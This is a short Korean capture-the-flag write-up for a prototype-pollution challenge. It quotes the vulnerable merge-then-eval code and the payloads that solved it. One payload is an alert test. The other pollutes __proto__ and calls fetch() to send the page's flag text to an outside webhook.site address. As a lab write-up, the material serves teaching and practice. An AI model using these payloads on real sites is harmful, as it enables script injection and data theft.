


## prototype-pollution

```html
CLOB = { name:'arang' };
window.onload = () => {
  params = new URLSearchParams(location.search);
  try { c = JSON.parse(params.get("c")); merge(CLOB, c); } catch(e){}
  document.getElementById('name').innerText = `Hello ${CLOB.name}`;
  if(CLOB.isAdmin){ eval(CLOB.code); }
};
```

CLOB 아래에 isAdmin을 만들고 clob부분에 실행할 명령어를 입력하는 방식으로 flag를 획득 할 수 있을 것 같다.

```html
http://edu.arang.kr:9503/?c={%22__proto__%22:{%22isAdmin%22:true,%22code%22:%22alert(1)%22}}
```

prototype pollution이 작동하는지 확인하기 위해 alert 구문이 뜨는지 확인했다



alert구문이 떠 prototype pollution이 가능함을 확인하였다.

```html
http://prototype-pollution:9503/?c={"__proto__":{"isAdmin":true,"code":"fetch(\"https://webhook.site/45f2c625-ba52-4d6d-8cbe-d18e6db78e0a?a=\"+encodeURIComponent(flag.innerText))"}}
```

이렇게 url을 읽게 된다면 공격에 성공해 flag를 획득 할 것이다. 위 페이로드를 url 인코딩해 report를 보내었다.

```html
http://prototype-pollution:9503/?c=%7B%22__proto__%22%3A%7B%22isAdmin%22%3Atrue%2C%22code%22%3A%22fetch(%5C%22https%3A%2F%2Fwebhook.site%2F45f2c625-ba52-4d6d-8cbe-d18e6db78e0a%3Fa%3D%5C%22%2BencodeURIComponent(flag.innerText))%22%7D%7D
```



flag를 획득 할 수 있다.

flag{bf0e31f17cc613cfae8f}
